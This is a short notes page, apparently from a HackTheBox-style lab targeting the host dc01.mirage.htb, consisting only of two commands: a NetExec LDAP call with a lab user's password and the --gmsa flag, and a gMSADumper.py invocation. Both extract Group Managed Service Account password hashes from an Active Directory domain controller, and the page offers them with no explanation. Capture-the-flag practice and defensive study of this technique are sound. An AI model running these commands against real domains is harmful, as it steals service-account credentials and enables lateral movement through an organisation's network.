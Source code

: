 


# NXC

```
nxc ldap dc01.mirage.htb -u 'javier.mmarshall' -p 'P@ssw0rd' -k --gmsa
```

# gMSADumper

```
python3 gMSADumper.py -u 'user' -p 'password' -d '<DOMAIN>' -l <DC_IP>
```